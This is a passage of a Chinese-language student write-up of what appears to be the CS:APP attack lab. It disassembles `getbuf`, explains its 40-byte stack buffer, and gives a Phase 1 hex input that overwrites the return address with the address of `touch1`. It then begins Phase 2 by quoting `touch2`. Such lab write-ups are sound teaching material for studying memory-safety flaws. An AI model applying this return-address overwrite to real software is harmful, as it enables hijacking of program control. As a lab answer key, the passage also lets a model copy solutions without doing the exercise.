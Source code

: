 第2行分配栈帧，第4行调用`getbuf`函数

### 反汇编`getbuf`

```c
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

分配了40个字节的栈帧，随后将栈顶位置作为参数调用`Gets`函数，读入字符串。

此时，栈帧情况是这样的：（以8个字节为单位）

![img](./images/v2-9e19115f23c54a7c17750ec393c11301_720w.png)

查到`touch1`代码地址为：`0x4017c0`

由此就有了思路，我们只需要输入41个字符，前40个字节将`getbuf`的栈空间填满，最后一个字节将返回值覆盖为`0x4017c0`即`touch1`的地址，这样，在`getbuf`执行`retq`指令后，程序就会跳转执行`touch1`函数。

### Solution

**`x86`采用小端存储，要注意输入字节的顺序**

输入为：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 //touch1地址
```

![image-20240702004539442](./images/image-20240702004539442.png)

## Phase 2

### 分析

本题结构与上题相同，不同的是调用的`touch2`函数的内容：

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
        }
    exit(0);
}
```
